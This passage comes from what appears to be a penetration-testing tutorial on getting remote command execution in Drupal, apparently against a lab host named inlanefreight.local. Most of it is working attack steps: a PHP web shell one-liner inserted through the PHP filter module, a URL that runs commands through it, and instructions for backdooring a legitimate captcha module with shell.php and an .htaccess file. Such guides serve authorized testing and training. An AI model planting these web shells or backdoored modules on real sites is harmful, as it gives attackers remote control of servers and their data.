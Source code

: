    * Navigate: `Content > Add content > Basic Page`
   * Insert:

     ```php
     <?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>
     ```
   * Set Text Format: `PHP code`
3. **Access Shell**:

   * Example URL:
     `http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id`
   * Command-line usage:

     ```bash
     curl -s http://<target> | grep uid
     ```

### 🔵 Drupal ≥ 8

* **PHP Filter is not installed by default**
* Steps:

  1. Download:

     ```bash
     wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
     ```
  2. Install via Admin Interface: `Admin > Extend > Install new module`
  3. Proceed with the same page creation and shell insertion as in version 7

⚠️ **Warning**: Always inform the client and **remove module/pages** after testing.


## 🎯 Uploading a Backdoored Module

1. **Download Legit Module**:

   ```bash
   wget https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
   tar xvf captcha-8.x-1.2.tar.gz
   ```

2. **Add Web Shell**:
   `shell.php`:

   ```php
   <?php system($_GET['fe8edbabc5c5c9b7b764504cd22b17af']); ?>
   ```

   `.htaccess`:

   ```apache
   <IfModule mod_rewrite.c>
   RewriteEngine On
   RewriteBase /
   </IfModule>
   ```
